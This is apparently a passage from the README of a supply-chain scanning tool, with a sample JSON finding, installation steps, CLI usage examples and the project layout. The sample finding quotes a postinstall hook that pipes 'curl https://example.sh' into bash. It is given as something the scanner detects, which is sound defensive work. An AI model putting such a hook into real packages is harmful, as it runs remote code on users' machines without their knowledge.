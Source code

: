```json
          "line": 45,
          "detail": "postinstall runs 'curl https://example.sh | bash'",
          "severity": "high"
        }
      ],
      "risk_score": 0.85
    }
  ]
}
```

---

## 🛠️ Installation & Setup

### Prerequisites
- Python 3.11+
- `pip` package manager

### Dependencies
Install required dependencies:
```bash
pip install -r requirements.txt
```

### Quick Start
```bash
# Scan a directory
python main.py <directory-to-scan>

# Scan with different output formats
python main.py repo-to-scan --output report.json    # JSON (default)
python main.py repo-to-scan --output report.csv --format csv  # CSV format
python main.py repo-to-scan --output report.xml --format xml  # XML format

# Advanced options
python main.py repo-to-scan --verbose --log scan.log  # Verbose logging with file
python main.py repo-to-scan --quiet                    # Suppress progress output
python main.py repo-to-scan --no-color                 # Disable colored output
```

### Project Structure
```
supply-chain-mapper-agent/
├── main.py                       # Main entry point script
├── config.yaml                   # Configuration file
├── README.md                     # This documentation
├── requirements.txt             # Python dependencies
├── repo-to-scan/                # Directory containing files to scan
│   ├── package.json             # JS/Node.js manifest
│   ├── pyproject.toml           # Python project config
│   ├── requirements.txt         # Python dependencies
│   ├── go.mod                   # Go module dependencies
│   ├── Cargo.toml               # Rust cargo dependencies
│   ├── pom.xml                  # Java Maven project
│   ├── Gemfile                  # Ruby dependencies
│   ├── composer.json            # PHP dependencies
│   └── Dockerfile*              # Container manifests
└── src/                         # Source code
    ├── cli.py                   # Command-line interface
    ├── config.py                # Configuration management
    ├── output.py                # Output formatting
    ├── signals.py               # Signal generation
```